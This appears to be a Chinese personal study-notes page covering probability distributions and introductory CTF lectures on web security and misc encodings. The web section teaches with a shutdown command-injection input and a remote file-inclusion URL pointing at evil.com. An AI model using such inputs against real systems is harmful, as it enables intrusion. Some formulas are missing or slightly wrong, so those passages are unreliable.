设 \(\xi(\omega)\) 是定义在概率空间 $ { \Omega, \mathscr{F}, P } $ 上的单值实函数，即 $$ \xi: \Omega \mapsto \mathbb{R} $$ 且对于 \(\mathbf{R}\) 上的任一波雷尔集 \(B\)，有 $$ \xi^{-1}(B) = \{ \omega: \xi(\omega) \in B \} \in \mathscr{F} $$ 即 \(\xi(\omega)\) 的任意取值对应的样本点的集合（构成一个事件）都在事件域 \(\mathscr{F}\) 中，那么就称 \(\xi(\omega)\) 为随机变量，称 $ \{ P(\xi(\omega)) \in B \}, B \in \mathcal{B} $ 为随机变量 \(\xi(\omega)\) 的概率分布
也就是说，我们把 \(\xi\) 看作一个函数，它把一个事件映射到一个实数上去。我们希望当我们对一些事件进行运算时，它的值域 \(A(\in R)\) 也能满足这些事件运算的性质，因此我们要求值域是一个波雷尔集，落在波雷尔域 \(\mathcal{B}\) 中
离散型随机变量¶
离散型随机变量
若随机变量 \(\xi\) 可能的取值至多可列个（有限个或可列无限个），则称 \(\xi\) 为离散型随机变量
对于离散型随机变量，关键在于它的分布列，即它的取值和对应的概率
显然，分布列具有性质：
- \(p_i > 0, i = 1, 2, \cdots\)
- \(\sum\limits_{i=1}^{\infty} p_i = 1\)
常见的离散型随机变量
若随机变量 \(\xi\) 只取一个值 \(x_0\)，即 \(P(\xi = x_0) = 1\)，则称 \(\xi\) 服从退化分布，也称单点分布。
伯努利分布是一种特殊的两点分布，也称0-1分布
$$ P(\xi = k) = \binom{n}{k} p^k q^{n-k}, \enspace p,q > 0, \enspace p+q=1$$ 记作 \(\xi \sim B(n,p)\)，\(n\) 和 \(p\) 称为它的两个参数
$$ P(\xi = k) = \frac{\lambda^k}{k!}e^{-\lambda} ,\lambda>0,\enspace k\in \mathbb{N} $$ 记作 \(\xi\sim\mathcal{P}(\lambda)\)
对于二项分布，如果当 \(n \to \infty\) 时，有 \(np_n \to \lambda\) ，则二项分布趋近于泊松分布。
记 \(\lambda_n = np_n\)，则 \(p_n = \lambda_n / n\)，对于固定的 \(k\)
常用于解决寻找第一次成功的问题
常用于解决次品抽样问题，当 \(N\) 很大时，超几何分布就可以用二项分布来近似计算
分布函数与连续型随机变量¶
分布函数¶
离散型随机变量用分布列来表示其概率分布，但其他随机变量不具有分布列，例如一个随机变量可取的值为某区间内的任意值，此时就无法一一罗列这些值及其概率，因此我们引入新的方法来描述概率分布，并且我们希望这个描述方法能够对一切的随机变量都适用。
分布函数
设 \(\xi\) 是一个随机变量，对任意实数 \(x\)，定义函数 \(F(x)\) 为 $$ F(x) = P(\xi \leqslant x) $$ 则称 \(F(x)\) 为随机变量 \(\xi\) 的分布函数。对于一个给定的随机变量，其分布函数是唯一确定的，它是实变量 \(x\) 的函数。
分布函数具有以下性质： - \(F(x)\) 是一个单调不减函数：若 \(x_1 < x_2\)，则 \(F(x_1) \leqslant F(x_2)\) - 有界性：\(0 \leqslant F(x) \leqslant 1\) - \(\lim\limits_{x \to -\infty} F(x) = 0, \lim\limits_{x \to +\infty} F(x) = 1\) - \(F(x)\) 是右连续的，\(F(x+0) = F(x)\)
为了方便起见，我们常把\(\lim\limits_{x \to -\infty} F(x)\) 和 \(\lim\limits_{x \to +\infty} F(x)\) 简写为 \(F(-\infty)\) 和 \(F(+\infty)\)
Tip
- 对于离散型随机变量，其分布函数是阶梯函数
- 对于连续型随机变量，其分布函数是连续函数，可以利用密度函数的积分来计算
- 只要某个函数具有上面的几条性质，那么它就一定可以作为某个随机变量的分布函数
连续型随机变量及密度函数¶
连续型随机变量
若随机变量 \(\xi\) 可取某个区间（有限或无限）中的一切值，并且存在某个非负的可积函数 \(p(x)\)，使得分布函数 \(F(x)\) 满足 $$ F(x) = \int_{-\infty}^{x} p(t) \mathrm{d}t , \quad -\infty < x < \infty $$ 则称 \(\xi\) 为连续型随机变量，函数 \(p(x)\) 称为 \(\xi\) 的概率密度函数，简称为密度函数。
连续性随机变量的分布函数具有以下良好的数学性质：
连续性随机变量的分布函数的性质
-
F(x) 在 \(p(x)\) 的连续处可导
\[ F'(x) = p(x) \] -
只要给出密度函数 \(p(x)\)，就可以求出 \(\xi\) 落在区间 \((a,b]\) 内的概率
\[ \begin{aligned} P(a < \xi \leqslant b) &= F(b) - F(a) \\ &= \int_{-\infty}^{a} p(x) \mathrm{d}x - \int_{-\infty}^{b} p(x) \mathrm{d}x \\ &= \int_{a}^{b} p(x) \mathrm{d}x \end{aligned} \]由此对于 \(\mathbb{R}\) 上的一切波雷尔集 \(B\)，都可以通过 \(p(x)\) 来计算概率 \(P(\xi \in B) = \int_{B} p(x) \mathrm{d}x , \quad B \in \mathcal{B}\)
-
对于任一常数 \(c\)，有
\[ P(\xi = c) = F(c) - F(c-0) = \lim_{h \to o^+} \int_{c-h}^c p(x) \mathrm{d}x = 0 \]
密度函数还具有如下性质：
- 非负性：$$ p(x) \geqslant 0 $$
- 规范性：$$ \int_{-\infty}^{+\infty} p(x) \mathrm{d}x = 1 $$
常见的连续型随机变量¶
均匀分布¶
对 \(a < b\)，称随机变量 \(\xi\) 服从区间 \([a,b]\) 上的均匀分布（uniform distribution），如果它的密度函数为
简记作 \(\xi \sim U(a,b)\)，其分布函数为
正态分布¶
若随机变量 \(\xi\) 的密度函数为 $$ p(x) = \dfrac{1}{\sqrt{2\pi}\sigma} e^{-\frac{(x-a)^2}{2\sigma^2}} $$ 则称 \(\xi\) 服从参数为 \(a\) 和 \(\sigma^2\) 的正态分布（normal distribution），也称高斯分布，简记作 \(\xi \sim N(a,\sigma^2)\)
正态分布的分布函数无法用初等函数表示，但可以用积分表达式表示 $$ F(x) = \dfrac{1}{\sqrt{2\pi}\sigma} \int_{-\infty}^{x} e^{-\frac{(t-a)^2}{2\sigma^2}} \mathrm{d}t $$
- 正态分布的密度函数的图像是一个钟形曲线，关于直线 \(x=a\) 对称，即 \(p(x) = p(2a-x)\)，且在 \(x=a\) 处取得最大值 \(\dfrac{1}{\sqrt{2\pi}\sigma}\)，
- 正态函数的数学期望为 \(a\)，方差为 \(\sigma^2\)
标准正态分布
当 \(a=0\)，\(\sigma=1\) 时，则称 \(\xi\) 服从标准正态分布（standard normal distribution），记作 \(\xi \sim N(0,1)\)
此时的密度函数为 $$ p(x) = \dfrac{1}{\sqrt{2\pi}} e^{-\frac{x^2}{2}} $$
如果 \(\xi\) 是服从正态分布 \(N(a,\sigma^2)\) 我们可以通过如下的变换来将其转化为标准正态分布 $$ \eta = \dfrac{\xi - a}{\sigma} \sim N(0,1) $$
3\(\sigma\)原则
对于一般的正态分布 \(\xi \sim N(a,\sigma^2)\)，令 \(\eta = \dfrac{\xi - a}{\sigma}\)，则有
这说明正态随机变量的值几乎都落在 \(（a - 3\sigma, a + 3\sigma）\) 区间内，在实际应用中，我们就认为不可能落在这个区间之外。
指数分布¶
指数分布的密度函数为 $$ p(x) = \begin{cases} \lambda e^{-\lambda x}, & x \geqslant 0 \ 0, & x < 0 \end{cases} $$ 其中 \(\lambda > 0\)，称 \(\xi\) 服从参数为 \(\lambda\) 的指数分布（exponential distribution），记作 \(\xi \sim E(\lambda)\)
指数分布的分布函数为 $$ F(x) = \begin{cases} 1 - e^{-\lambda x}, & x \geqslant 0 \ 0, & x < 0 \end{cases} $$
指数分布的数学期望为 \(\dfrac{1}{\lambda}\)，方差为 \(\dfrac{1}{\lambda^2}\)
指数分布具有类似于几何分布的无记忆性
还可以证明，指数分布是具有上述性质的唯一的连续型分布
其他常见的几种连续性随机变量¶
常见的随机变量可以从这里查阅到。
若随机变量 \(\xi\) 的密度函数为
其中 \(\Gamma(r)\) 是第一型欧拉积分，则称 \(\xi\) 服从参数为 \(\lambda\) 和 \(r\) 的\(\Gamma\) 分布，记作 \(\xi \sim \Gamma(\lambda, r)\)
当 \(r\) 为整数时也称爱尔兰分布，特别地，当 \(r = 1\) 时，\(\Gamma\) 分布就是指数分布
若随机变量 \(\xi\) 的密度函数为
则称 \(\xi\) 服从参数为 \(a\) 和 \(b\) 的\(\beta\) 分布，记作 \(\xi \sim \beta(a, b)\)。
其中 \(a,b>0\)，\(B(a,b) = \int_0^1 x^{a-1} (1-x)^{b-1} \mathrm{d}x\) 是 \(\beta\) 积分， $$ B(a,b) = \dfrac{\Gamma(a+b)}{\Gamma(a)\Gamma(b)} $$
柯西分布的密度函数为 $$ p(x) = \dfrac{1}{\pi} \dfrac{1}{1+(x-\theta)^2}, \quad -\infty < x < +\infty $$ 其中参数 $-\infty < \theta < +\infty $
卡方分布是多个独立标准正态分布的平方和的分布，记作 \(\xi \sim \chi^2(n)\)，其密度函数为
$$ p(x) = \begin{cases} \dfrac{1}{2^{n/2}\Gamma(n/2)} x^{n/2-1} e^{-x/2}, & x \geqslant 0 \\ 0, & x < 0 \end{cases} $$ 其中 \(n\) 为自由度
随机向量¶
随机向量
若随机变量 \(\xi_1(\omega), \xi_2(\omega), \cdots, \xi_n(\omega)\) 都定义在同一个概率空间上，则称 \(\boldsymbol{\xi} = \left(\xi_1, \xi_2, \cdots, \xi_n \right)\) 为 \(n\) 维随机向量，或 \(n\) 维随机变量，简称随机向量
离散型随机向量¶
如果随机向量只能取有限组或可列组值，就称它为离散型随机向量。对于离散型随机向量，我们同样可以用分布列来描述其概率分布。
一般地，离散型的二维联合分布列为 $$ P(\xi = x_i, \eta = y_j) = p_{ij}, \quad i,j = 1,2,\cdots $$ 记作 \(p(x_i, y_j) = p_{ij}\)
\(n\) 维离散性向量的联合分布是 $$ P(\xi_1 = x_{i_1}, \xi_2 = x_{i_2}, \cdots, \xi_n = x_{i_n}) = p(x_{i_1}, x_{i_2}, \cdots, x_{i_n}) = p_{i_1i_2\cdots i_n} $$ 其中 \(i_1, i_2, \cdots, i_n = 1,2,\cdots\)
对于上式，一定满足如下性质：
边际分布
以二维离散型随机向量 \((\xi, \eta)\) 为例，\(\xi\) 和 \(\eta\) 的边际分布列分别为 $$ p_{i\cdot} = P(\xi = x_i) = \sum_{j} p_{ij}, \quad i = 1,2,\cdots $$ $$ p_{\cdot j} = P(\eta = y_j) = \sum_{i} p_{ij}, \quad j = 1,2,\cdots $$
对于离散型随机向量，它的边际分布就是将联合分布列中的另一个变量固定，对另一个变量求和得到的分布列
Warning
当联合分布给定时，边际分布唯一确定；但反过来，边际分布给定时，联合分布未必唯一确定，还需要考虑各个分量之间的关系
分布函数¶
随机向量的分布函数
对任意的 \((x_1, \cdots, x_n) \in \mathbb{R}\)，称 \(n\) 元函数 $$ F(x_1, \cdots, x_n) = P(\xi_1(\omega) \leqslant x_1, \cdots, \xi_n(\omega) \leqslant x_n) 为随机向量 \(\xi(\omega) = \left( \xi_1(\omega), \cdots, \xi_n(\omega) \right)\) 的联合分布函数
联合分布函数具有如下性质：
Property
- 对每个变量单调不减
- 对每个变量右连续
-
对任意 \((x,y)\)
\[ F(x, -\infty) = 0, \quad F(-\infty, y), \quad F(\infty, \infty) \] -
因为概率一定不小于零，因此对于任意实数 \(a_1 < b_1, a_2 < b_2\) 有
\[ F(b_1, b_2) - F(a_1, b_2) - F(b_1, a_2) + F(a_1, a_2) \geqslant 0 \]
连续型随机向量¶
若存在 \(n\) 元可积的非负函数 \(p(x_1, \cdots, x_n)\)，使 \(n\) 元分布函数可表示为 $$ F(x_1, \cdots, x_n) = \int_{-\infty}^{x_1} \cdots \int_{-\infty}^{x_n} p(y_1, \cdots, y_n) \mathrm{d}y_1 \cdots \mathrm{d}y_n $$
则称它是连续型分布，并称 \(p(x_1, \cdots, x_n)\) 为（联合）密度函数。显然密度函数具有如下的性质：
- \(p(x_1, \cdots, x_n) \geqslant 0\)
-
\[ \int_{-\infty}^{\infty} \cdots \int_{-\infty}^{\infty} p(y_1, \cdots, y_n) \mathrm{d}y_1 \cdots \mathrm{d}y_n = 1\]
-
\[ \dfrac{ \partial^n F(x_1, \cdots, x_n) }{ \partial x_1 \cdots \partial x_1 } = p(x_1, \cdots, x_n) \]
边际分布
仍以二维随机向量 \((\xi, \eta)\) 为例，\(\xi\) 和 \(\eta\) 的边际分布列分别为
令 $$ p_{\xi}(u) = \int_{-\infty}^{\infty} p(u,v) dv $$ 则 $$ F_{\xi}(x) = \int_{-\infty}^x p_{\xi}(u) du $$
因此 \(p_{\xi}(u)\) 就是 \(\xi\) 的密度函数，同理，\(\eta\) 的密度函数为 $$ p_{\eta}(v) = \int_{-\infty}^{\infty} p(u,v) du $$
随机向量的独立性¶
条件分布¶
离散型¶
连续型¶
一般情况¶
给定随机变量下的条件概率¶
随机变量的函数及其分布¶
离散型随机变量的函数¶
一维连续型随机变量的函数¶
连续性随机向量函数的分布律¶
Ended: 概率论
Ended: 数理
CTF ↵
安全攻防实践¶
约 109 个字 预计阅读时间不到 1 分钟
拼搏14天，我要成为CTF大神。(?
分数组成
- 考勤 5%
- 基础周 55%
- lab0 5%
- 5个方向的lab1 10% \(\times\) 5
- 专题周 40%
- 5个方向 5选2 每个方向2个lab，每个占10%
- 少量bonus：考勤 / 基础周 / 专题周 三个部分相互独立，不互相溢出
作业做出来就有分数，轻轻松松拿高分，真得选吧😤
基础周 ↵
Lec1-CTF入门¶
约 24 个字 预计阅读时间不到 1 分钟
授课：常瑞、王鹤翔(TonyCrane)
如何学习CTF¶
Lec2-Web¶
约 3996 个字 53 行代码 4 张图片 预计阅读时间 17 分钟
授课：叶耀阳
Web应用架构：客户端+服务端¶
桌面应用和Web应用在架构上有显著的区别。桌面应用通常是在本地运行的独立程序，而Web应用则需要依赖客户端和服务端的协作。
- 客户端：你的浏览器
- 可视化：图形、图片、布局…… HTML + CSS
- 人机交互逻辑：按钮点击，登录，发送请求……JS
- 缓存、Cookie
- 安全：不能将私密的、不该获取的信息传出去（比如 Cookie），不能为所欲为（比如注销其他网站的账号）
- 服务端：某台或很多台服务器
- 认证与鉴权：如何证明你是你
- Authentication（认证）：知道你是谁
- Authorization（鉴权）：确认你有何权限
- 处理请求：用户需要做什么？将结果返回客户端
- 服务器也可以有不同分工：前端后端、数据库……
- 安全：用户不能获得不该获取的信息（比如 flag），不能为所欲为（比如任意代码执行 RCE）
- 认证与鉴权：如何证明你是你
网络：数据交换¶
数据包的传输与路由¶
想象一下，数据包就像是一封封信件，而网络则是遍布全球的邮政系统。当我们在电脑上点击发送邮件时，数据被切割成一个个小包裹，即数据包。这些数据包随后被送往最近的邮局，也就是路由器。路由器就像邮局的分拣员，根据包裹上的地址（即IP地址），决定将它们送往下一个邮局，直至最终到达目的地。这个过程中，每个路由器都会查看数据包的目的地，并选择最佳路径，确保数据包能够快速、准确地到达。
域名与DNS系统¶
在网络的世界里，IP地址就像是门牌号码，虽然精确，但记忆起来却颇为困难。这时，域名系统（DNS）就如同一个智能的电话簿，将复杂的IP地址转化为易于记忆的域名，比如www.example.com。当你在浏览器中输入一个域名时，DNS服务器会像查电话簿一样，找到对应的IP地址，并指引你的请求到达正确的服务器。
OSI模型和TCP/IP模型¶
正如我们写代码层层封装，计算机网络的总体架构也是分层的。这样每个层各司其职，下层上上层的基础设施，逐渐构建复杂的功能。
- OSI 七层模型

- TCP/IP 四层模型：广泛使用

TCP/IP 协议详解¶
- IP: 网络层 = 主机到主机，数据包寻址（快递公司）
-
TCP: 传输层 = 应用到应用，或者说端到端（菜鸟驿站）
无边界的字节流，类比电报报文，电报的格式是应用层协议该做的，电报本身只发字母数字
HTTP 协议详解（Hyper Text Transfer Protocol）¶
- 应用层，基于TCP
- 特点：无状态（需要应用层自行维护），纯文本
- 需要维持状态（比如：用户已登录）怎么办？Cookie
- 格式

DNS记录¶
- A记录：指向 IPv4 地址
- AAAA记录：指向 IPv6 地址
- CNAME记录：别名，指向另一个域名
- 其他的还有 TXT（纯文本），NS（Name Server），MX，SOA...
常用命令¶
\(\texttt{whois}\)¶
- 查询域名的注册信息：持有人等
\(\texttt{nslookup}\)¶
- 查看DNS工作记录
\(\texttt{tracert/traceroute}\)¶
- 跟着那个每一条所需时间
- 原理：ICMP报文
代理 PROXY¶
正向代理¶
- VPN：Virtual Private Network
- 使其看起来就像在内网
反向代理¶
- 隐藏真实 IP，部署 CDN，部署防火墙
- 内网穿透：内网穿透到外面来
后端：业务逻辑¶
后端是Web应用的核心，它负责处理业务逻辑、数据存储和安全。在这一部分，我们会介绍常见的后端技术栈，并重点讨论后端安全，尤其是如何防范和应对CTF（Capture the Flag）中常见的逻辑漏洞攻击。
- 常见后端技术栈（如Node.js、PHP、Python、Ruby、Go、Rust 等）
- 后端安全：永远不要相信用户的数据，一切前端的过滤都等于没有过滤！
-
CTF: 通过逻辑漏洞等欺骗后端
逻辑漏洞：
if money!=0 then money-=price.What ifmoney=-1?没接触安全领域前关于安全的错觉：
- 这么蠢的洞也有人写？
- 这么写怎么可能有洞？
- 这么多人用怎么可能有洞？
事实：连SSH今年都还能有高危漏洞 CVE-2024-6387
注入：混淆了数据和代码。
例如printf("%d", _____)
正常输入：1 2 3
恶意输入：1); system("shutdown -s -t 0"); //
就变成了printf("%d", 1); system("shutdown -s -t 0"); //)
PHP¶
PHP是最早的Web开发语言之一，它在Web开发历史上占有重要地位。
早年只有静态网页，而后来有了jsp和php
- 环境配置：PHP Study
- 变量定义
- 短标签
<?=$a?>
例子
获取 GET 参数与 Cookie 并查询数据库对应的用户：
例子
SQL¶
- 发音 \(\texttt{S-Q-L}\) 或 \(\texttt{Sequel}\)
- 结构化查询语言 \(\texttt{Structured Query Language}\)
-
用来做什么？
数据库维护应用的数据，而与数据库交互的接口往往是基于 SQL 语句的
常用操作¶
增 Create
- CREATE TABLE users (...);
- INSERT INTO users VALUES (1, 'hello', 'pwd', true);
删 Delete
- DELETE FROM users WHERE id=1;
改 Update
- UPDATE users SET username='aaa' WHERE id=1;
查 Retrieve/Read
- SELECT version();
- SELECT avg(score) FROM students GROUP BY name;
- SELECT * FROM students;
安全相关话题¶
Cookie 与 Session¶
- Cookie：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
- 示例：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
- Cookie劫持：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
- Session：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
- 示例：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
- 如果服务器被攻破，Session中就可能有一些敏感信息。
逻辑漏洞¶
验证不充分、想当然的写法、条件竞争、未发现的旁门左道...
- 程序员的傲慢可能会让他认为a==1&&a==2 一定是 false 但...

任意文件读与任意代码执行¶
- 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
- CTF竞赛中，能读服务器上
/flag则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
文件包含¶
例如一个Web应用允许用户通过URL参数指定要包含的文件，如index.php?page=about。攻击者可以通过构造恶意URL，如index.php?page=http://evil.com/malicious.php，包含远程恶意文件，从而执行恶意代码。
越权¶
例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如order.php?id=123，查看其他用户的订单信息。
- 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会。
前端：可视化与操作逻辑¶
前端开发主要关注用户界面的设计和用户交互。在这一部分，我们将学习HTML、CSS和JavaScript的基础知识，以及前端安全的重要性和常见的防护措施。同时，我们会通过经典案例分析前端漏洞的利用方法和防护策略。
HTML / CSS / JS基础¶
HTML¶
- 格式：各个标签嵌套的层级结构，每个标签基本上就对应页面上的一个元素
Html例子
CSS¶
- 用途：元素宽度、外部间隔、内部边距、字体颜色……
- 选择器语法：选择你要把这些属性应用给哪些元素
- 元素选择器
body - 类选择器
.my-class - ID选择器
#myid
- 元素选择器
Css例子
JS(JavaScript)¶
- 包裹在
<script>中 - 可以做什么：嵌入网页中，让网页具备高级的交互逻辑
- 现代用途更广：各种框架，用于后端
Javascript例子
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 | |
编码基础：JavaScript 与 TypeScript¶
JavaScript¶
JavaScript 简介与历史
JavaScript（简称JS）是由Netscape公司的Brendan Eich在1995年十天内开发出来的一种脚本语言。最初设计用于浏览器端的动态网页内容生成，JavaScript迅速成为Web开发的核心技术之一，与HTML和CSS并列为前端开发的三大支柱。
- 诞生背景：JavaScript诞生于Web 1.0时代，最初被称为Mocha，后改名为LiveScript，最后才成为JavaScript。
- 发展历程：从最初的客户端脚本语言，JavaScript逐步演变成一门强大的编程语言，现今不仅用于浏览器端，还在服务器端广泛应用。
JavaScript的基本语法和特点
JavaScript语法灵活，具有动态类型、函数式编程和原型继承等特点。
-
变量声明：使用
var、let和const声明变量。 -
函数定义：
-
条件判断：
-
循环：
-
事件处理：
JavaScript灵活性很强，但这也带来了某些潜在问题，比如类型不安全、代码维护性差等。
TypeScript¶
TypeScript的特点和优点
TypeScript（简称TS）是由微软开发的一种开源编程语言，是JavaScript的超集，增加了静态类型和类等特性。
-
静态类型：通过类型检查减少运行时错误，提高代码的可维护性。
-
类和接口：支持面向对象编程，增强代码结构性。
-
模块化：支持模块化编程，提高代码复用性和组织性。
TypeScript在现代Web开发中的应用
TypeScript在大型项目中尤为受欢迎，例如Angular、Vue 3和React等前端框架都支持或推荐使用TypeScript。TypeScript通过类型检查和IDE支持（如VS Code），大大提高了开发效率和代码质量。
Node.js简介¶
Node.js的起源和发展
Node.js是由Ryan Dahl在2009年开发的一个开源、跨平台的JavaScript运行时环境，基于Chrome的V8引擎构建。Node.js的出现使得JavaScript可以用于服务器端开发。
- 起源：Node.js诞生于对高性能、非阻塞I/O模型的需求。
- 发展：Node.js迅速发展，成为构建高性能、可扩展网络应用的首选平台。
Node.js的基本使用方法与应用场景
Node.js通过事件驱动、非阻塞I/O模型，使其在处理大量并发请求时具有显著优势。
-
基本使用：
-
应用场景：Node.js常用于构建实时应用（如聊天应用）、API服务、微服务架构等。
相关安全话题¶
- XSS（跨站脚本攻击）
- CSRF（跨站请求伪造）与 SSRF（服务器端请求伪造）
- 跨域
尾声¶
经典老番：地址栏输入网址并访问后发生了什么
- DNS解析（域名解析）：
- 浏览器会首先检查本地缓存中是否有该网址对应的IP地址。
- 如果没有，它会向DNS服务器发送请求，查询该网址的IP地址。
- DNS服务器返回该网址对应的IP地址给浏览器。
- 建立TCP连接：
- 浏览器使用前面得到的IP地址，通过TCP/IP协议与目标服务器建立连接。
- 这包括三次握手过程：客户端发送SYN包，服务器返回SYN-ACK包，客户端再发送ACK包确认连接。
- 发送HTTP请求：
- 建立连接后，浏览器会发送一个HTTP请求到服务器。这个请求包含了请求方法（如GET或POST）、请求的资源路径以及一些头信息（如浏览器类型、可接受的文件类型等）。
- 服务器处理请求并返回响应：
- 服务器接收到请求后，会处理该请求，查找请求的资源（如HTML文件、图片、视频等）。
- 服务器会将找到的资源以及一些头信息（如内容类型、内容长度等）打包成HTTP响应，返回给浏览器。
- 浏览器接收响应并渲染页面：
- 浏览器接收到服务器返回的HTTP响应后，会解析响应的头信息和内容。
- 如果内容是HTML文件，浏览器会解析HTML并根据其中的指令（如加载CSS文件、执行JavaScript脚本等）进行渲染。
- 浏览器会逐步构建DOM树和CSSOM树，并根据它们生成渲染树，最后将内容绘制到屏幕上。
- 加载资源：
- 如果HTML文件中包含了其他资源（如图片、CSS、JavaScript等），浏览器会根据需要发送额外的HTTP请求来加载这些资源。
- 这些资源加载完成后，浏览器会继续渲染页面，更新显示内容。
整个过程通常在短时间内完成，以确保用户能够快速看到网页内容。
Lec3-Misc¶
约 1802 个字 3 张图片 预计阅读时间 7 分钟
授课：郑俊达(Gooduck)
什么是Misc¶
- Miscellaneous，即杂项，包含了一些不属于其他类别的题目
- MISC = ALL - PWN - WEB - CRYPTO- REVERSE
Misc题型¶
- 隐写、取证、OSINT（信息搜集）、PPC（编程类） ——传统misc题
- 游戏类题目、工具运用类题目
- 编解码、古典密码 ——不那么crypto的crypto
- 网络解谜、网站代码审计 ——不那么web的web
- 代码审计、沙箱逃逸 ——不那么binary的binary
- Blockchain、IoT、AI ——新兴类别题目
如何学习misc？¶
- 用于尝试学习新东西，许多题目需要快速入门/快速上手新工具
- 思维活跃，大胆尝试
- 一定的编程能力
- 熟练掌握Python或其他一门语言
- 多做题
基础编解码知识¶
三种常见的01串转换方式
常用编解码工具：CyberChef /（TonyCrane ver.）
字符编码¶
- 字符编码：人类理解的字符 $ \iff $ 计算机理解的01串 之间的映射
- 出现乱码：用一种字符编码规则解读另一种字符编码的01串
常见的字符编码：
- ASCII：一共 128 个项，即每个字符可以用一个7位的01串表示（或一字节）
- 00-1F：制字符；20-7E：可见字符；7F：控制字符（DEL）
- Latin-1（ISO-8859-1）：扩展了 ASCII，一共 256 个项
- 80-9F：控制字符；A0-FF：可见字符
- 特点：任何字节流都可以用其解码
- 利用Unicode 字符集的一系列编码
- UTF-8 / UTF-16 / UTF-32 / UCS
- 中国国标字符集系列编码8
- GB 2312 / GBK / GB 18030-202
Unicode字符集与UTF编码¶
参考：TonyCrane的笔记
以平面划分，有17个平面，每个平面65536个码位（2字节）
- 通过码位可以表示为U+0000 ~ U+10FFFF
- 可容纳111w+个字符，现有14w+字符（超过一半为CJK字符）
UCS（Universal Character Set）：Unicode字符集的标准名称
- UCS-2：2字节表示码位；UCS-4：4字节表示码位
UTF（Unicode Transformation Format）：Unicode字符集的编码方式
- UTF-8：变长编码，1~4字节表示一个字符，兼容ASCII
- 1字节：0xxxxxxx；
- 2字节：110xxxxx 10xxxxxx；
- 3字节：1110xxxx 10xxxxxx 10xxxxxx；
- 4字节：11110xxx 10xxxxxx 10xxxxxx 10xxxxxx
- ASCII字符：1字节；常用字符：2字节；其他字符：3字节或4字节
- UTF-16：2字节或4字节表示一个字符，不兼容ASCII
- BMP（基本多文种平面）：2字节表示；SMP（补充多文种平面）：4字节表示
出现乱码原因¶
几个字符集不兼容的部分互相编解码
- 用 GBK 解码 UTF-8 编码的文本
- 用 UTF-8 解码 GBK 编码的文本
- 用 latin-1 解码 UTF-8 编码的文本
- 用 latin-1 解码 GBK 编码的文本
- 先用 GBK 解码 UTF-8 编码的文本，再用 UTF-8 解码前面的结果
- 先用 UTF-8 解码 GBK 编码的文本，再用 GBK 解码前面的结果

摩尔斯电码(Morse Code)¶
字符 $ \iff $ 字符
- 摩尔斯电码：一种用点（·）和划（-）（时间长短）表示字符
- 点·：1单位；划-：3单位
- 点划之间间隔：1单位；字符之间间隔：3单位；单词之间间隔：7单位
- 字符集：A-Z、0-9、标点符号等（. : , ; ? = ' / ! - _ " ( ) $ & @ +）
- 表示中文：电码表（一个汉字对应四个数字），数字使用短码发送
Base系列编码¶
01串 $ \iff $ 字符，Base家族的结果都可以转为可见字符
- Base16：16进制编码表示字节流
- Base32：5bit一组（0-31），按照字符表（A-Z、2-7）映射
- 最终长度必须是5的倍数，不足的用=补齐（明显特征）
- Base64：6bit一组（0-63），按照字符表映射
- 标准字符表：A-Z a-z 0-9 + /
- 另有多种常用字符表，如URL安全字符表：A-Z a-z 0-9 - _
